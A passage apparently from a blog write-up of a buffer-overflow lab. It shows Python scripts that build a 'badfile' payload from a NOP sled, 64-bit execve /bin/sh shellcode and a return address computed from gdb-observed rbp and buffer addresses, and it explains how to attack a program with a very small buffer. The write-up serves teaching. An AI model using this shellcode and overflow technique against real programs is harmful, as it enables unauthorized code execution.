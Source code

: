 ```python
# Record the values of $ebp, &buffer, and byte size.
rbp    = 0x7fffffffd970
buffer = 0x7fffffffd8a0
L      = 8     # Use 4 for 32-bit address and 8 for 64-bit address.

# Decide the return address value and place it in the payload.
ret    = buffer + 120                            # This number accounts for extra space used during debugging.
offset = (rbp - buffer) + L                      # place the 'ret' after $rbp

content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

<details><summary>Brief explanation of exploit code</summary></details>

![task-3-b](https://github.com/iukadike/blog/assets/58455326/262e275e-dfcd-4873-9ac2-e02318464350)


<br>

###  Launching Attack on a 64-bit Program with a Very Small Buffer Size

With 64-bit programs, we usually have to store the shellcode within the buffer. However, if the buffer is so small that it cannot contain our shellcode, we will have to find a way to run the copy of the shellcode that is in the stack of the main function of the program.

From the vulnerable program provided, we know that main() calls dummy_buffer(), which calls bof(). We also know that dummy_buffer() has a stack size of 1000. Thus, the distance from main() to bof() is at least 1000.

Using gdb, we can obtain the rbp address and buffer address of the running program.

![task-4-a](https://github.com/iukadike/blog/assets/58455326/49e26013-5482-408a-9137-34aa4269c004)


The following code can be used to exploit the buffer-overflow vulnerability (note: address randomization is disabled).

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode.
shellcode= (
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')


# Fill the content with NOP's.
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode at the end of the payload.
start = 517 - len(shellcode)               
content[start:] = shellcode

##################################################################
# Record the values of $ebp, &buffer, and byte size.
rbp    = 0x7fffffffd970
```